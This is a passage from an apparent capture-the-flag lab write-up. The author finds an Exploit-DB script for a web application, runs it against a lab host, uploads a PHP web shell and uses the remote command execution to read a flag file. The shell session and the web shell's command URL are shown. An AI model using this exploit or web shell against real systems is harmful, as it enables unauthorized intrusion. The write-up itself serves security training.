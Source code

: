 <br>

![alt text](image-17.png#center)
I googled `procedure functions bootstrap exploit` and the first result directs to `Exploit-DB`, clearly indicating we may be onto something!

<br>

![alt text](image-18.png#center)
I downloaded the exploit and ran it

<br>

```shell
┌──(kali㉿kali)-[~/Downloads]
└─$ ls
47887.py  webapp.db

┌──(kali㉿kali)-[~/Downloads]
└─$ python 47887.py
usage: 47887.py [-h] url
47887.py: error: the following arguments are required: url

┌──(kali㉿kali)-[~/Downloads]
└─$ python 47887.py http://10.10.118.28:84
> Attempting to upload PHP web shell...
> Verifying shell upload...
> Web shell uploaded to http://10.10.118.28:84/bootstrap/img/KJvupFii50.php
> Example command usage: http://10.10.118.28:84/bootstrap/img/KJvupFii50.php?cmd=whoami
> Do you wish to launch a shell here? (y/n): y
RCE $ cat /opt/flag.txt
THM{But_1ts_n0t_my_f4ult!}
```